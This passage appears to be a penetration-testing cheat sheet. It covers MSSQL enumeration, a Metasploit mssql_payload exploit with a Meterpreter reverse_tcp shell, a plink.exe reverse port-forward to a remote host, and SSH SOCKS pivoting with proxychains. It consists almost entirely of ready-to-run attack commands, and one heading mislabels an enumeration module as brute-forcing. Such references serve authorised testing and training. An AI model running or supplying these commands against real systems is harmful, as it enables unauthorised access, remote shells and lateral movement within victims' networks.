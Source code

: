 ### MSSQL

Enumeration / Discovery:

Nmap:

```
nmap -sU --script=ms-sql-info 192.168.1.108 192.168.1.156
```

Metasploit:

```
msf > use auxiliary/scanner/mssql/mssql_ping
```

##### Use MS SQL Servers Browse For More

Try using "Browse for More" via MS SQL Server Management Studio

#### Bruteforce MSSQL Login

```
msf > use auxiliary/admin/mssql/mssql_enum
```

#### Metasploit MSSQL Shell

```
msf > use exploit/windows/mssql/mssql_payload
msf exploit(mssql_payload) > set PAYLOAD windows/meterpreter/reverse_tcp
```

## Network

### Plink.exe Tunnel

PuTTY Link tunnel

Forward remote port to local address:

```
plink.exe -P 22 -l root -pw "1337" -R 445:127.0.0.1:445 REMOTE-IP
```

### Pivoting

#### SSH Pivoting

```
ssh -D 127.0.0.1:1010 -p 22 user@pivot-target-ip
```

Add socks4 127.0.0.1 1010 in /etc/proxychains.conf

SSH pivoting from one network to another:

```
ssh -D 127.0.0.1:1010 -p 22 user1@ip-address-1
```

